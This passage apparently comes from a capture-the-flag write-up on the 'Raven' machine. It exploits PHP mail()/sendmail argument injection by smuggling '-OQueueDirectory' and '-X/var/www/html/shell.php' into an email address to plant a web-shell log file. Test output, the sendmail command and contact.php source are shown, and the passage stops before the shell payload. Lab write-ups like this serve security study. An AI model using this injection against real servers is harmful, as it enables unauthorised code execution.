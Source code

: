 And run it:
```
tester@Raven:# php test.php
[*] Testing the following address:
        "test the following:\" -A/=/a/b/c test" @test.com
TRUE
```

#### Exploitation

We just need to craft a payload string that would allow us to write a log in a file reachable from the web server. Ideally, we will be able to inject php log into the file and use it as a vector to achieve code execution, as explained previously in the "Notes about PHP mail() function exploitation".

Following the above example, we can modify the address from this:

```
$address = (string)'"test chars:\" -A/=/a/b/c test" @test.com';
```
to this:
```
$address = (string)'"injection\" -OQueueDirectory=/tmp -X/var/www/html/shell.php server" @pwnd.com';
```

If we run again the tester, we will see that this payload as well matches the validation regex: 

```
tester@Raven:# php test.php
[*] Testing the following address:
        "injection\" -OQueueDirectory=/tmp -X/var/www/html/shell.php server" @pwnd.com
TRUE
```

When called by PHP mail function, the sendmail program would look like it was called from the command like in the following way:
```
tester@Raven:# sendmail -f"injection\" -OQueueDirectory=/tmp -X/var/www/html/shell.php server" @pwnd.com

```

However, if anyone tries to execute the command this way, he will see that it won't work. To make it work properly, it's necessary to launch it this way:
```bash
tester@Raven:# $(printf '/usr/sbin/sendmail -f"injection\" -OQueueDirectory=/tmp -X/var/www/html/shell.php server" @pwnd.com') 

```
Killing the command with `Ctrl+C`, and listing the files within the directory, 
it's observable that the file shell.php has been created, registering the output of the command. At this point, the last thing to do is to choose where to put the PHP shell payload. We can control two additional part of the sendmail command, as observable from the contact.php:

```php
$name=$_REQUEST['name'];
$message=$_REQUEST['message'];
...
$mail->Subject  = "Message from $name";
$mail->Body     = $message;
```
